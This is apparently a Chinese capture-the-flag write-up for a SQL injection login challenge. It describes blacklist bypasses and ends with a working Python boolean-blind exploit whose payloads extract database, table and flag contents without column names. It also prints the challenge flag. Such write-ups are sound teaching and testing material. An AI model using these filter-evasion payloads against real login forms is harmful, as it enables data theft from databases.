 ## sql injection

### [题目考点]：

```
1. sql盲注
2. information_schema绕过
3. 无列名注入
```

### [Flag]:
`flag{584d6b4a-0c95-45ae-a2a3-ebdf7cac5cfc}`

### [题目环境]：
```
1. Linux alpine
2. Nginx
3. MariaDB
4. PHP 7.3
```

### [题目writeup]：

1. fuzz，发现过滤了如下字符

```
' ','=','<','>','^','$','-',';','&','+','or','and','`','\'','like','insert','limit','update','delete','into','if','mid','substr','sleep','benchmark','load_file','outfile','./','/*','*/'
```

2. 登陆界面尝试万能密码"||1#，存在注入点

3. 根据是否登陆成功进行布尔盲注

4. 过滤空格可以使用括号或\n绕过

5. =、like均被过滤，使用regexp('^xxx')绕过，但^被过滤，使用0x十六进制绕过

6. or和information_schema被过滤，使用mysql.innodb_table_stats获取表名，注意数据库管理系统为MariaDB，不是mysql，无sys模式，故无法使用sys.schema_table_statistics_with_buffer绕过

7. 无法获取列名，进行无列名注入：

   `select(group_concat(b))from((select(1)b)union(select\n*\nfrom(f1ag)))a`

exp如下，每一步给出多种payload，均可以实现注入：

```python
import requests
import time

url="http://10.212.27.23:8749/login.php"
lists = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ}{,-."

def exp(payload, len):
	info=''
	for i in range(1,len):
		for c in lists:
			payload2 = payload % ((info+c).encode().hex())
			resp=requests.post(url,data={'username':payload2,'password':'1'})
			# print(resp.text)
			if('home' in resp.text):
				info+=c
				print(info)
				break
	print()

# 库名
payload='"||(select(database()))regexp(0x5e%s)||"'
payload='"||(select(database()))regexp(0x5e%s)#'
exp(payload,5)

# 表名
payload='"||(select(group_concat(table_name))from(mysql.innodb_table_stats)where((database_name)regexp(database())))regexp(0x5e%s)||"'
payload='"||(select(group_concat(table_name))from(mysql.innodb_table_stats)where((database_name)regexp(database())))regexp(0x5e%s)#'
exp(payload, 10)

# flag(无列名注入)
payload='"union(select(b),(2)from(((select(1)b)union(select\n*\nfrom(f1ag)))a)where(b)regexp(0x5e66%s))#'
payload='"||(select(group_concat(b))from((select(1)b)union(select\n*\nfrom(f1ag)))a)regexp(0x5e%s)#'
payload='"||(select\n*\nfrom(f1ag))regexp(0x5e%s)#' # 只有表f1ag列数为1时才能使用
exp(payload, 50)

```

